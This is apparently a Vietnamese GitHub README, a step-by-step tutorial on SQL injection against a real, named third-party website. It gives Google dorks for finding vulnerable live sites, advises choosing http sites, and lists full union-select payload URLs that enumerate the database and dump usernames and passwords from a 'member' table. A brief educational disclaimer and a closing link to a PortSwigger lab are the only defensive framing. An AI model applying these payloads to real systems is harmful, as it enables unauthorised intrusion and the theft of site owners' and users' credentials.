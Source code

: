 # Hướng dẫn tấn công SQLi trên Web thật!                                                     
By: Nguyễn Hữu Nghi
***

** Lưu ý: Bài Demo này là tấn công dựa trên web thật do mình tìm được, với mục đích học tập. Các bạn có thể làm theo nhưng vui lòng đừng thực hiện các tấn công nguy hiểm nhầm phá hoại trang web. Xin cảm ơn! **

## Bước 1:
Tìm kiếm đối tượng tấn công sử dụng lệnh: ```inurl product.php id= site vn``` thông qua các trình duyệt web thông dụng như Chrome, Edge, Cốc Cốc,....
## Bước 2:
Sau khi tìm được đối tượng tấn công.
Mình khuyên các bạn nên tìm các trang web có địa chỉ bắt đầu bằng `http` thay vì`https` thì tấn công sẽ dễ thành công hơn.
<br>
Ví dụ:
![image](https://github.com/user-attachments/assets/a7f45723-3797-426a-a32f-c7ff238794c4)
</br>
** Lưu ý: không phải trang web nào các bạn cũng thực hiện tấn công thành công được, nên đừng quá chán nản. Hãy tập trung tìm điểm yếu hoặc trang wed khác! **

## Bước 3:
Mình sẽ lấy trang web mình tìm được:
<!--http://www.igoergo.com/_site/products.php?cat=02-->
- Xác định số cột <br></br>
```order by 1-- -``` nếu web vẫn bình thường hãy thử lại với số cao hơn! <br>
```order by 3-- -``` web sẽ xảy ra lỗi => Điều này có nghĩa số cột cần tìm > 1 và < 2.<br>
```order by 2-- -``` web vẫn bình thường => số cột của web này là 2.<br>
Trông nó sẽ như này: ```http://www.igoergo.com/_site/products.php?cat=02%20order%20by%202--%20-``` %20 chỉ tượng trưng cho dấu cách các bạn không cần phải lo!
- Xác định cột bị lỗi để có thể chèn code của mình vào <br></br>
Sử dụng lệnh: ```union select 1,2-- -```    
** Lưu ý: bước trên các bạn tìm được bao nhiêu cột thì bắt buộc phải gõ đủ bấy nhiêu cột.  VD: union select 1,2,3,4,5-- - <br></br>
Để lệnh chạy đc thì các bạn thêm `-` trước giá trị của `cat`. ( hoặc `id` nếu các bạn tấn công web khác mình)<br></br>
Trông như này: ```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%201,2--%20-```<br></br>
Kết quả: <br>
![image](https://github.com/user-attachments/assets/558bdd0d-fcd4-4178-9870-b9a1ecd0b54e)  </br> 
=> Điều này có nghĩa là bạn có thể chèn code vô cột 1.
**Nếu bạn nghĩ mình đã gõ đúng mà Web vẫn báo lỗi hãy kiểm tra lại từng chữ mà bạn gõ!!!**
## Bước 4:
Thực hiện chèn code bằng các lệnh: <br>
```user()``` => coi user của web <br>
```database()``` => coi thông tin về database <br>
```version()``` => coi version của database <br>
Trông như thế này: <br>
```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%20user(),2--%20-```
</br>
### Bước 4.1:
- Tìm tên các tables trong database: <br>
``` union select group_concat(table_name),2 from information_schema.tables where table_schema= database();-- -``` <br>
- Trông sẽ như này: <br>```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%20group_concat(table_name),2%20from%20information_schema.tables%20where%20table_schema=%20database();--%20-```</br>
### Bước 4.2:
- Tìm tên các cột trong 1 table cụ thể.<br>
**Thường lấy các cột trong table về chủ sở hữu web vì nó chứa các thông tin quan trọng** <br>
- Ở đây mình lấy table `member` để tấn công. <br> 
Nhưng trước tiên mình cần đổi member thành hệ thập lục phân Hex.
Link đổi sang Hex: https://www.hexator.com/ <br>
```member``` đổi sang Hex sẽ là ```6d656d626572``` <br>
- Sử dụng lệnh: ```union select group_concat(column_name),2 from information_schema.columns where table_name= 0x6d656d626572-- -``` <br>
**Lưu ý: chổ table_name thêm `0x` rồi sau đó là hex của member là `6d656d626572` <br>
- Trông như này: ```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%20group_concat(column_name),2%20from%20information_schema.columns%20where%20table_name=%200x6d656d626572--%20-``` <br>
### Bước 4.3:
- Xem nội dung trong các cột: <br>
  Sử dụng lệnh: ```union select group_concat(id,username,password),2 from member-- -``` tuy nhiên kết quả trả về sẽ bị gộp rất khó coi.<br>
  Chèn dấu `/` để dễ nhìn => `2f` => ```union select group_concat(id,0x2f,username,0x2f,password),2 from member-- -```
- Trông nó sẽ như thế này:```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%20group_concat(id,0x2f,username,0x2f,password),2%20from%20member--%20-```
### Chúc mừng bạn đã tấn công thành công!!!
<br>
<br>
<br>

***
# Lab 2: Blind SQLi

- Link to lab: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
- Link tải Burp Suite: https://portswigger.net/burp/communitydownload











